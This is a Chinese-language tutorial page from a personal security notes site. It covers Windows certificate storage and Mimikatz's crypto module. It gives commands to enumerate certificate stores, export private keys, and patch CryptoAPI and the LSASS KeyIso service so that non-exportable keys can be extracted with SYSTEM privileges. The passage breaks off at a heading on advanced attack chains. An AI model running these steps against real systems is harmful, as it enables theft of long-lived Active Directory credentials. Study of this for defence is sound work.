

repository: crootkit/crootkit.github.io · page: Windows internel/mimikatz 系列/4 PKI（公钥基础设施）/index.html · generator: mkdocs

在 AD（Active Directory）环境中，证书往往被视为比密码和 Kerberos 票据更具威胁的**长期高价值凭证**，因为它们通常具有数年的有效期，且不受常规密码重置策略的影响。

### 一、 底层架构：Windows 证书与密钥存储机制

Windows 并非将所有证书混在一起，而是通过注册表将其组织为逻辑容器（Stores），并依赖两套不同的 API 处理底层密码学运算。

#### 1. 证书存储容器 (System Store Types)

- **CURRENT_USER**：当前用户证书。存储路径：`HKCU\Software\Microsoft\SystemCertificates`。
- **LOCAL_MACHINE**：机器级证书，所有用户可访问。存储路径：`HKLM\SOFTWARE\Microsoft\SystemCertificates`。
- **SERVICES**：特定服务的独立存储。存储路径：`HKLM\SOFTWARE\Microsoft\Cryptography\Services\<ServiceName>\SystemCertificates`。
- **核心目标 ("My" Store)**：在上述系统容器中，**"My"（个人）存储区**是攻击者的首选目标，因为这里存放着包含私钥的身份验证证书。

#### 2. 密钥存储机制 (CryptoAPI vs CNG)

- **CryptoAPI (Legacy 遗留 API)**：
    - 密钥文件存储路径：`%APPDATA%\Microsoft\Crypto\RSA\<SID>\`。
    - 特点：老旧，多用于旧版智能卡或遗留系统。
- **CNG (Cryptography API: Next Generation 现代 API)**：
    - 由 Key Storage Provider (KSP) 管理，密钥文件存储路径：`%APPDATA%\Microsoft\Crypto\Keys\`。
    - 特点：现代标准，由 LSASS 进程中的 **KeyIso** 服务统一托管。

**关于“不可导出 (Non-Exportable)”的真相**： 证书属性中的“Exportable: NO”只是一个安全标志。标准 Windows 工具会拒绝导出私钥，但为了让 OS 能够使用该私钥进行签名或解密，**密钥材料必然存在于内存中**。只要拥有足够权限，攻击者就能将其提取。


### 二、 Mimikatz 核心命令与内存补丁技术

Mimikatz 的 `crypto` 模块是提取这些资产的“手术刀”。其核心原理是通过**内存补丁 (Memory Patching)** 绕过 CryptoAPI 和 CNG 的导出限制。

#### 1. 侦察与枚举

在导出前，先摸清证书分布：输出中会明确标识 `Exportable key : NO` 或 `YES`。
```
# 枚举当前用户的证书存储区
mimikatz # crypto::stores /systemstore:current_user

# 列出 "My" 存储区中的个人证书
mimikatz # crypto::certificates /systemstore:current_user /store:My
```

#### 2. 导出常规证书

如果证书标记为可导出，直接提取：
```
mimikatz # crypto::certificates /export
```
_注：导出的私钥会打包为 `.pfx` 文件，Mimikatz 默认使用密码 `mimikatz` 保护该文件。_

#### 3. 突破“不可导出”限制 (核心攻击技术)

当遇到 `Exportable key : NO` 时，必须对加密提供程序进行内存补丁。

**方法 A：补丁 CryptoAPI (针对 Legacy 证书)** 直接修补当前 Mimikatz 进程的内存：
```
mimikatz # crypto::capi
# 输出: Local CryptoAPI RSA CSP patched
```
补丁后，再次执行 `crypto::certificates /export` 即可无视限制导出私钥。

**方法 B：补丁 CNG (针对现代证书)** 现代证书由 LSASS 中的 `KeyIso` 服务管理。因此，必须**提升至 SYSTEM 权限**，并修补 LSASS 进程的内存：
```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # crypto::cng
# 输出: "KeyIso" service patched
```

### 三、 高阶攻击场景 (实战链路)
